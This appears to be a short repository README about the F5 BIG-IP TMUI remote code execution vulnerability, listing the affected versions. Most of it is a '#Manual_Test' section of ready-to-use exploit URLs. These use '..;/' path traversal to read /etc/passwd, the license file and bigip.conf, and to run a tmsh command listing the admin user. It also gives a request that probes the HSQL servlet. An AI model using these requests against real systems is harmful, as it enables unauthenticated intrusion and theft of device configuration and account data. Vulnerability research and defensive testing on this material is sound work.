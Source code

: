 The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

